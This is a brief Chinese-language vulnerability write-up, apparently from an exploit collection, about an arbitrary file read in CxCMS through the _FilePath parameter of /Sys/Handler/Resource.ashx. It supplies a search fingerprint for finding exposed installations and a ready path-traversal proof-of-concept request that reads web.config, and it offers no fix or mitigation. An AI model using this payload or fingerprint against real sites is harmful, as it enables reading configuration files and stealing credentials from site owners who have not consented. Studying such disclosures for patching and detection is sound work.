

# CxCMS Resource.ashx 任意文件读取漏洞

## 漏洞描述

CxCMS 存在任意文件读取，由于 /Sys/Handler/Resource.ashx 页面 _FilePath 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
CxCMS
```

## 网络测绘

```
"Powered by CxCms"
```

## 漏洞复现

关键字"Powered by CxCms"


验证POC

```
/Sys/Handler/Resource.ashx?_FilePath=../../web.config
```

